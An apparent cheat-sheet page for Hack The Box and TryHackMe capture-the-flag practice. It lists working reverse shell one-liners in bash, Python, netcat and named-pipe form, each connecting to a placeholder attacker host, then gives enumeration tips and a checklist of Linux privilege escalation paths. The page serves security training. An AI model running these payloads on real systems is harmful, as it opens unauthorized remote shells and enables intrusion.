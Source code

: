 
## 🚨 Emergency Shell Recovery

### Reverse Shell One-liners
- [ ] **Bash**
  ```bash
  bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1
  ```
- [ ] **Python**
  ```bash
  python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
  ```
- [ ] **Netcat**
  ```bash
  nc -e /bin/sh ATTACKER_IP PORT
  ```
- [ ] **Named pipe**
  ```bash
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP PORT >/tmp/f
  ```

---

## 🎯 Pro Tips for HTB/THM Success

### Priority Checklist
- [ ] **Always stabilize shell first** - saves time and frustration
- [ ] **Run automated tools while doing manual enumeration** - parallel approach
- [ ] **Check GTFOBins for any SUID/sudo binaries** - quick reference
- [ ] **Monitor processes with pspy** - catches scheduled tasks
- [ ] **Look for version numbers** - everything can be exploited
- [ ] **Check file permissions thoroughly** - world-writable files are gold
- [ ] **Read configuration files carefully** - credentials hide everywhere
- [ ] **Don't forget about groups** - group permissions matter
- [ ] **Check for Docker/container environments** - different techniques needed
- [ ] **Document everything** - you'll need it for reports

### Common Privilege Escalation Paths
- [ ] **Writable files in PATH directories**
- [ ] **SUID binaries (especially custom ones)**
- [ ] **Sudo misconfigurations**
- [ ] **Cron jobs running as root with writable scripts**
- [ ] **Kernel exploits on older systems**
- [ ] **Database credentials in config files**
- [ ] **SSH keys in unusual places**
- [ ] **Capabilities on binaries**
- [ ] **NFS root_squash misconfigurations**
- [ ] **Docker socket access**